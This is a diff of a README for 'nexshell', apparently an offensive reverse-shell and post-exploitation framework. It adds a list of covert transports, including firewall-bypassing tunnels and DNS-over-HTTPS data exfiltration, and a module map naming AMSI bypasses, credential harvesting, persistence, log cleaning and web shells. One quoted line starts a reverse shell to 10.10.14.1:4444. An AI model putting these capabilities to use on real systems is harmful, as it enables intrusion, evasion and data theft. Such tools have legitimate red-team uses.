

Before and after one commit to vulnquest58/nexshell, a Markdown page: README.md, 2 parts joined by grey strips. Rendered like a GitHub page; blank space fills up the shorter version.

Commit message:
docs: update README.md features and directory architecture map

````diff
--- a/README.md
+++ b/README.md
@@ -108,6 +108,11 @@
 | Session logging | ✅ | ✅ | ✅ |
 | Terminal size synchronization | ✅ (SIGWINCH) | ✅ (Polling) | ✅ |
 | Re-connection & Keepalives | ✅ | ✅ | ✅ |
+
+### 🔒 Secure & Covert Transports
+- **TLS/mTLS Listeners**: Native stdlib-only TLS 1.2/1.3 encrypted listener sockets with on-the-fly certificate generation.
+- **HTTP/HTTPS Tunneling**: Clean, stateful HTTP GET/POST agent tunneling to bypass strict boundary firewalls.
+- **DNS-over-HTTPS (DoH)**: Exfiltrate data covertly by routing DNS chunks through trusted providers (Cloudflare, Google, OpenDNS).
 
 ### 📂 Dynamic Payload Library
 Stored as template files under `payloads/` and dynamically rendered with target configurations:
@@ -291,15 +296,24 @@ Invoke-ConPtyShell -RemoteIp 10.10.14.1 -RemotePort 4444 -Rows 50 -Cols 220
 
 ```
 nexshell/
-├── nexshell.py          # Main engine (standalone, no deps)
+├── nexshell.py             # Main commander engine (standalone, no deps)
 ├── modules/
 │   ├── __init__.py
-│   ├── windows.py       # Windows payloads, AMSI bypass, PrivEsc, CredHarvest
-│   └── ops.py           # Persistence, Lateral, AD Recon, Container Escape, Exfil
+│   ├── loot.py             # Loot parser, log scanner, HTML/Markdown/JSON exporter
+│   ├── ops.py              # Recon, persistence, lateral, container escape, exfiltration
+│   ├── opsec.py            # OPSEC profiles (ghost/normal/paranoid), timestomp, logclean, obfuscation
+│   ├── session_manager.py  # Snapshots, health monitoring, SIGWINCH/polling term sync, PTY upgrade advisor
+│   ├── transport.py        # TLS/mTLS listeners, HTTP/HTTPS tunnels, DoH exfil covert channel
+│   ├── ui.py               # Auto-completer, typo corrector, aliases, inline hints, timer
+│   └── windows.py          # Windows payloads, AMSI bypasses, PrivEsc checks, credential harvest
 ├── payloads/
-│   └── __init__.py
-├── setup.sh             # Cross-platform installer
-└── README.md
+│   ├── __init__.py
+│   ├── linux/              # Linux reverse shell templates (bash, awk, busybox, etc.)
+│   ├── staged/             # Staged loaders (stager_linux, stager_windows)
+│   ├── web/                # Web shells (php, asp, aspx, jsp)
+│   └── windows/            # Windows reverse shell templates (powershell, conptyshell, lolbins)
+├── setup.sh                # Cross-platform installer (Linux/macOS)
+└── README.md               # Documentation
 ```
 
 ---
````
